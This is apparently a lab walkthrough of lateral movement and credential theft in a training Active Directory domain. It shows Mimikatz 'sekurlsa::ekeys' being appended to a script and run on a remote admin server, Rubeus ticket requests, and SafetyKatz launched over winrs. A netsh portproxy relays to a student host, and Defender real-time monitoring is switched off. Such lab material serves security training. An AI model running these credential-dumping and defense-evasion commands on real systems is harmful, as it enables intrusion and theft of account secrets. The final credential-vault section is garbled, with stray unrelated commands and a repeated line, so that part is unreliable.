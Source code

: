 Create Invoke-MimiEx.ps1 
- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1.  
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit).  
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.

On student machine run the following command from a PowerShell session
```
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorpadminsrv.dollarcorp.moneycorp.local\c$\'Program Files' 
```
The file Invoke-MimiEx.ps1 is copied to the dcorp-adminsrv server. 

![image](https://github.com/user-attachments/assets/1ea8bbff-3386-46ea-8924-60d2b25fe031)

Now run the modified mimikatz script. Note that there is no dot sourcing here: 

[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 

Here we find the credentials of the srvadmin, appadmin and websvc users.  

From local system with elevated shell (Run as Administrator), use asktgt from Rubeus with Loader.exe and encoded arguments: 

![image](https://github.com/user-attachments/assets/27f9a7f4-5a6c-479f-a23e-ff5bdd084ae0)

The new process that starts has srvadmin privileges. Check if srvadmin has admin privileges on any other machine. 

![image](https://github.com/user-attachments/assets/e97fa3e4-5a62-433f-93fc-f3622e738eeb)

We have local admin access on the dcorp-mgmt server as srvadmin and we already know a session of svcadmin is present on that machine.  

SafetyKatz for extracting credentials 

Let's use SafetyKatz to extract credentials from the machine. Run the below commands from the process running as srvadmin. 

Copy the Loader.exe and Safety.bat to dcorp-mgmt: 

![image](https://github.com/user-attachments/assets/26f1bf5b-45ff-477d-9f18-4ee1cba25ef5)

Extract credentials: 
```
C:\Windows\system32> winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"  
```
```
C:\Windows\system32>winrs -r:dcorp-mgmt C:\Users\Public\Safety.bat 
```
Invoke-Mimi for extracting credentials 
We could also use Invoke-Mimi with PSRemoting. Take a session to dcorp-mgmt with PSRemoting. 

![image](https://github.com/user-attachments/assets/f0214471-f349-46e1-b053-25cbc54bbb35)

![image](https://github.com/user-attachments/assets/509e4d16-9def-4668-9ed3-654bbc1344fd)

Invoke-Mimi for extracting credentials from credentials vault
We can also look for credentials from the credentials vault. Interesting credentials like those used for scheduled tasks are stored in the credential vault. Use the below command: 


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 